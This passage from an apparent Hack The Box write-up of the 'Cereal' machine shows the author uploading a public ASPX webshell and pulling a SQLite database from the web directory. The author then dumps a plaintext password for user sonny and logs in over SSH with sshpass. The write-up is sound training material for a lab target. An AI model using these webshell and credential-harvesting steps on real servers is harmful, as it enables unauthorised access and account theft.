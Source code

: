 ### Password

Originally I used the webshell to get a reverse shell. But on more enumeration, that proved unnecessary.

In the web directory `C:\inetpub\cereal`, there’s a `db` directory that contains a single file:

![image-20210427203554690](https://0xdfimages.gitlab.io/img/image-20210427203554690.png)

Calling `type` on it dumps it out, much of which is binary garbage, but also the rest of which gives some clues:

![image-20210427203807825](https://0xdfimages.gitlab.io/img/image-20210427203807825.png)

The DB is SQLite, and there are a handful of tables there. I can see the XSS cereal request in the text. Another table is the `Users` table, which includes username and password fields.

At the very bottom, there’s the string `sonny`, and then `mutual.madden.manner38974`.

To see this more clearly, I uploaded a [better ASPX webshell](https://raw.githubusercontent.com/xl7dev/WebShell/master/Aspx/ASPX%20Shell.aspx):

![image-20210428070756319](https://0xdfimages.gitlab.io/img/image-20210428070756319.png)

I’ll right-click on `cereal.db` and Save Link As… the file so I have it locally to investigate:

```

oxdf@parrot$ file cereal.db 
cereal.db: SQLite 3.x database, last written using SQLite version 3028000

```

Opening it, I can dump the `Users` table and get the password:

```

oxdf@parrot$ sqlite3 cereal.db
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
Requests               Users                  __EFMigrationsHistory
sqlite> select * from Users;
1|sonny|mutual.madden.manner38974|

```

### SSH

Those creds work to auth as sonny over SSH:

```

oxdf@parrot$ sshpass -p 'mutual.madden.manner38974' ssh sonny@10.10.10.217
Microsoft Windows [Version 10.0.17763.1817]                                                              
(c) 2018 Microsoft Corporation. All rights reserved. 
                                                    
sonny@CEREAL C:\Users\sonny>

```
